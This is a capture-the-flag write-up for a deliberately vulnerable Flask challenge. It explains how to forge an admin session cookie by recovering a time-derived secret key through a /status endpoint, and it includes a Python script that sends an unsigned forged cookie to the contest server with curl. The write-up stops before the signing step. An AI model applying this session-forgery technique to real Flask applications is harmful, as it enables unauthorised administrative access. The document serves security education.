 App.py
```Python
#!/usr/bin/env python3
from flask import Flask, request, render_template, jsonify, abort, redirect, session
import uuid
import os
from datetime import datetime, timedelta
import hashlib
app = Flask(__name__)
server_start_time = datetime.now()
server_start_str = server_start_time.strftime('%Y%m%d%H%M%S')
secure_key = hashlib.sha256(f'secret_key_{server_start_str}'.encode()).hexdigest()
app.secret_key = secure_key
app.config['PERMANENT_SESSION_LIFETIME'] = timedelta(seconds=300)
flag = os.environ.get('FLAG', "flag{this_is_a_fake_flag}")
secret = uuid.UUID('31333337-1337-1337-1337-133713371337')
def is_safe_username(username):
    """Check if the username is alphanumeric and less than 20 characters."""
    return username.isalnum() and len(username) < 20
@app.route('/', methods=['GET', 'POST'])
def main():
    """Handle the main page where the user submits their username."""
    if request.method == 'GET':
        return render_template('index.html')
    elif request.method == 'POST':
        username = request.values['username']
        password = request.values['password']
        if not is_safe_username(username):
            return render_template('index.html', error='Invalid username')
        if not password:
            return render_template('index.html', error='Invalid password')
        if username.lower().startswith('admin'):
            return render_template('index.html', error='Don\'t try to impersonate administrator!')
        if not username or not password:
            return render_template('index.html', error='Invalid username or password')
        uid = uuid.uuid5(secret, username)
        session['username'] = username
        session['uid'] = str(uid)
        return redirect(f'/user/{uid}')
@app.route('/user/<uid>')
def user_page(uid):
    """Display the user's session page based on their UUID."""
    try:
        uid = uuid.UUID(uid)
    except ValueError:
        abort(404)
    session['is_admin'] = False
    return 'Welcome Guest! Sadly, you are not admin and cannot view the flag.'
@app.route('/admin')
def admin_page():
    """Display the admin page if the user is an admin."""
    if session.get('is_admin') and uuid.uuid5(secret, 'administrator') and session.get('username') == 'administrator':
        return flag
    else:
        abort(401)
@app.route('/status')
def status():
    current_time = datetime.now()
    uptime = current_time - server_start_time
    formatted_uptime = str(uptime).split('.')[0]
    formatted_current_time = current_time.strftime('%Y-%m-%d %H:%M:%S')
    status_content = f"""Server uptime: {formatted_uptime}<br>
    Server time: {formatted_current_time}
    """
    return status_content
if __name__ == '__main__':
    app.run("0.0.0.0", port=9999)
```

```Python
import base64
import json
import uuid
import subprocess

secret = uuid.UUID('31333337-1337-1337-1337-133713371337')
username = 'administrator'
uid = uuid.uuid5(secret, username)
#print(uid)

admin_data = {
    "is_admin": True,
    "username": username,
    "uid": uid
}
    
json_data = json.dumps(admin_data).encode('utf-8')
admin_cookie = base64.b64encode(json_data).decode('utf-8')

print("Admin Cookie:", admin_cookie)

curl_command = f'curl -X GET http://chal.competitivecyber.club:9999/admin --cookie "session=eyJpc19hZG1pbiI6IHRydWUsICJ1c2VybmFtZSI6ICJhZG1pbmlzdHJhdG9yIiwgInVpZCI6ICIwMmVjMTlkYy1iYjAxLTU5NDItYTY0MC03MDk5Y2RhNzgwODEifQ=="'
subprocess.run(curl_command, shell=True)
```

To get the flag, we need to route to the /admin page.
```Python
@app.route('/admin')
def admin_page():
    """Display the admin page if the user is an admin."""
    if session.get('is_admin') and uuid.uuid5(secret, 'administrator') and session.get('username') == 'administrator':
        return flag
    else:
        abort(401)
```
So we need to have a username of 'administrator', have is_admin set to True, and have a matching uuid.

```Python
@app.route('/', methods=['GET', 'POST'])
def main():
    """Handle the main page where the user submits their username."""
    if request.method == 'GET':
        return render_template('index.html')
    elif request.method == 'POST':
        username = request.values['username']
        password = request.values['password']
        if not is_safe_username(username):
            return render_template('index.html', error='Invalid username')
        if not password:
            return render_template('index.html', error='Invalid password')
        if username.lower().startswith('admin'):
            return render_template('index.html', error='Don\'t try to impersonate administrator!')
        if not username or not password:
            return render_template('index.html', error='Invalid username or password')
        uid = uuid.uuid5(secret, username)
        session['username'] = username
        session['uid'] = str(uid)
        return redirect(f'/user/{uid}')
```
Logging in the usual way, doesn't let us have a name that starts with 'admin', so we can't reach the /admin page.

It also immediately redirects us to /user/

```Python
@app.route('/user/<uid>')
def user_page(uid):
    """Display the user's session page based on their UUID."""
    try:
        uid = uuid.UUID(uid)
    except ValueError:
        abort(404)
    session['is_admin'] = False
    return 'Welcome Guest! Sadly, you are not admin and cannot view the flag.'
```

which sets `session['is_admin'] = False`, so even if we manage to get the username 'administrator', we will fail the is_admin check.

With this information, I poked around at `http://chal.competitivecyber.club:9999/`.

I  saw that it creates a session cookie. My cookie was `eyJpc19hZG1pbiI6ZmFsc2UsInVpZCI6ImY1NGUzMmI2LWQzOGMtNTJmZS1hNWY2LTIyZDYxMWFjN2EzMiIsInVzZXJuYW1lIjoidGVzdCJ9.Zu71Sw.4B-UMkzKzrjixgHDdq7sSTV8c08`

Decoding with Base64, I got ``{"is_admin":false,"uid":"f54e32b6-d38c-52fe-a5f6-22d611ac7a32","username":"test"}fKC$̬,`7jēW4`` which probably meant that the payload was signed, with `.{signature}`

I created a Base64 encoding of `{"is_admin":true,"uid":"02ec19dc-bb01-5942-a640-7099cda78081","username":"administrator"}` which is `eyJpc19hZG1pbiI6IHRydWUsICJ1c2VybmFtZSI6ICJhZG1pbmlzdHJhdG9yIiwgInVpZCI6ICIwMmVjMTlkYy1iYjAxLTU5NDItYTY0MC03MDk5Y2RhNzgwODEifQ==`

Now I needed the suffix. So I did some research and learned that Flask signs the cookies with `app.secret_key` which is the `secure_key` in the `App.py` file.

```Python
server_start_time = datetime.now()
server_start_str = server_start_time.strftime('%Y%m%d%H%M%S')
secure_key = hashlib.sha256(f'secret_key_{server_start_str}'.encode()).hexdigest()
app.secret_key = secure_key
```
To be able to generate the key, we need to find the servers start time.

After checking the `App.py`, I noticed that there is a `/status` page:
```Python
@app.route('/status')
def status():
    current_time = datetime.now()
    uptime = current_time - server_start_time
    formatted_uptime = str(uptime).split('.')[0]
    formatted_current_time = current_time.strftime('%Y-%m-%d %H:%M:%S')
    status_content = f"""Server uptime: {formatted_uptime}<br>
    Server time: {formatted_current_time}
    """
    return status_content
```
and it shows us the current time of the server, and the uptime of the server.

Using these two, we can calculate the server start time by subtracting the uptime from server time.

